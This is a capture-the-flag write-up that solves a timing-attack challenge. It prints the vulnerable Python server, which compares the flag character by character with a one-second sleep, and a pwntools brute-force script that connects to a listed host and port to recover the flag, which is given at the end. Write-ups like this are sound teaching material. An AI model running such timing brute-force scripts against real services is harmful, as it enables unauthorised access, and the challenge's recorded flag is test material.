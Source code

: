 # Pwn 100 - Patience

Here we are given a netcat server and, presumably, the python code that is running on it:

```
Connect via nc 40.76.33.15 31337
```

```python
#!/usr/bin/env python2
import sys
import time

if __name__ == '__main__':
    flag = '' # REDACTED

    print 'Can you beat the clock with this timing attack?'
    sys.stdout.flush()


    inp = sys.stdin.readline().strip()

    if len(flag) != len( inp ):
        exit('RIP, your flag is not the correct length!')

    for i in range(0, len(flag)):
        if flag[i] != inp[i]:
            exit('Wrong flag!')

        time.sleep(1)

    print 'Correct Flag!'
    sys.stdout.flush()
 ```
 
 Reading and reversing the python code, what it does is simple. It reads our input, then checks if the length of our input is the same length as the flag. If not, it exits. Otherwise, it checks our input with the flag sequentially starting from the first character. After each successful check, the program waits 1 second, otherwise it exits.
 
 The solution is simple: brute force every character, and if the program pauses for about an extra second, then we know the character we just tried is part of the flag.
 
 Next we just have to write a program to automate this. I chose to use python, pwntools, and elite haxor scripting skills:
 
 ```python
 from pwn import *
import time
import string

def trylen(flag):
	print "Try: " + flag
	r = remote("40.76.33.15", 31337)
	start = time.time()
	r.sendline(flag + "A"*(23-len(flag)))
	r.recvuntil("Wrong flag!", timeout=30)
	end = time.time()
	r.close()
	print end - start
	return end - start

print string.printable
flag = ""
curtime = trylen(flag)
print curtime
while True:
	for i in string.printable:
		test = trylen(flag + i)
		if abs(test - curtime) > 0.5:
			flag += i
			print flag
			curtime = trylen(flag)
			break
```

Note: this program took a long time to run because as we guess more characters, each subsequent attempt would take 1 second longer. So, when we brute approximately 100 characters for every value, well, you can imagine that it would take a while to finish.

## Flag
### b0ctf{ticky_t0cky_t0cz}
